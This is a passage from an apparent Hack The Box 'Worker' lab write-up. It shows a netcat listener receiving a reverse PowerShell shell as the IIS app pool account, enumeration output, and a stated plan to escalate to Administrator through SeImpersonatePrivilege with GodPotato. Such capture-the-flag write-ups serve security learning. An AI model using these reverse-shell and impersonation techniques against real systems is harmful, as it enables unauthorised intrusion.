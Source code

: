 I got the shell →

```powershell
┌──(kali㉿kali)-[~/Downloads/HTB/Worker]
└─$ rlwrap nc -lvnp 445                                  
listening on [any] 445 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.203] 50920
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\ProgramData> whoami
whoami
iis apppool\defaultapppool
PS C:\ProgramData> hostname
hostname
Worker
PS C:\ProgramData>
```
{: .nolineno}

I checked the privileges and I got `SeImpersonatePrivilege` Enabled so lets Impersonate this user to Administrator and I also checked `systeminfo` and this system is **Microsoft Windows Server 2019 Standard** so I could use `GodPotato` lets try it here →

```powershell
PS C:\ProgramData> whoami /all
whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
BUILTIN\IIS_IUSRS                    Alias            S-1-5-32-568 Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
                                     Unknown SID type S-1-5-82-0   Mandatory group, Enabled by default, Enabled group

PRIVILEGES INFORMATION
----------------------
```